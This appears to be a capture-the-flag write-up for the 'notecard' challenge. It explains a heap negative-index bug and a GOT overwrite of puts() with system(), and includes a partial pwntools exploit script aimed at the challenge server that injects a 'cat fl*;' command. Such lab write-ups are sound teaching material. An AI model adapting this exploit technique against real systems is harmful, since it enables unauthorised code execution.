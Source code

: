 The array from which notes are selected looks like this on the heap:

```
0x555555559380	0x0000000000000000	0x0000000000000031	........1.......
0x555555559390	0x00005555555592a0	0x00005555555592d0	..UUUU....UUUU..
0x5555555593a0	0x0000555555559300	0x0000555555559330	..UUUU..0.UUUU..
0x5555555593b0	0x0000555555559360	0x0000000000020c51	`.UUUU..Q.......
```

Notice how it stores a bunch of pointers to other heap memory.
But if we can access negative indices, we can go to other places in the heap and select pointers from there.
Then, the program uses those pointers to figure out where to read and write.

So if we can inject pointers before this note array, we can get arbitrary read/write.
Luckily, right before the array there are a bunch of notes, for which we control the content.
From then it's a classic GOT leak and then overwrite on `puts()`:

1. Choose a name that overflows to leak `.text` pointers.
2. Write a note that contains a pointer to the GOT of `puts()`.
3. Read a note from a negative index that lands exactly on the injected pointer, leaking libc ASLR slide.
4. Figure out from the leak what libc the server is using. (libc not given w/ the challenge)
5. Write a note to a negative index that lands exactly on the injected pointer, overwriting `puts()` with `system()`.
6. Exit the interactive menu, which ends up calling `puts(name)`. Great, so just set name to `cat flag.txt;aaaa[...]`.

## Solution

```py
#!/usr/bin/env python3

from pwn import *
import time

#target = process("./notecard")
target = remote("chals.swampctf.com", 40002)

target.recvuntil(b"name:")

# Set name to "cat fl*;aaaaaaaa..."
target.sendline(b"cat fl*;" + b"a" * 0x25)
print(target.recv(0x48+8))
target.recvline()
time.sleep(1) # idk what's up with the remote but seems like sleeping makes it a bit more reliable
target.sendline(b"n")
target.recvline()
target.recvline()

# leak .text pointers
leak = target.recvline()[30:-2] + b"\x00\x00"
print(leak)
base = u64(leak) - 0x1270
print(hex(base))


puts_got = base + 0x4018

# Write puts_got address somewhere on the heap, inside a note
target.recvuntil(b">")
target.sendline(b"2")
target.recvuntil(b"4): ")
target.sendline(b"4")
target.sendline(p64(puts_got))

```